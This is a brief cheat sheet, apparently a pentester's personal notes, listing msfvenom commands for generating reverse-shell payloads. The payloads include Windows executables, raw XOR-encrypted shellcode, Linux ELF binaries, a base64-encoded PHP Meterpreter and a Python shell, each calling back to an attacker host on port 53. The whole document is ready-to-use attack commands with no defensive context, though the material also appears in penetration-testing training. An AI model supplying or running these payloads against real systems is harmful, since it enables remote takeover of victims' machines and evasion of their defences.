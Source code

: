 <h3>generate payload - - msfvenom</h3>
<h5>windows</h5>
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.5.5 LPORT=53 -f exe > name.exe`
OR (encrypted)
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=wlan0 LPORT=53 -f raw --encrypt xor --encrypt-key “encryption key mo dito” -o shell.bin

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)`

<h5>linux</h5>
`msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.X.X LPORT=53 > linux`
OR
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=<lhost> LPORT=<lport>`
OR windows
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=53 -f exe --encrypt xor --encrypt-key “test” -o shell.exe`
OR -- PHP w/ iteration
`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.2.2 LPORT=53 -e php/base64 -i 1 > file.php`

<h5>python</h5>
`msfvenom -p python/shell_reverse_tcp LHOST=192.168.2.2 LPORT=53 > file`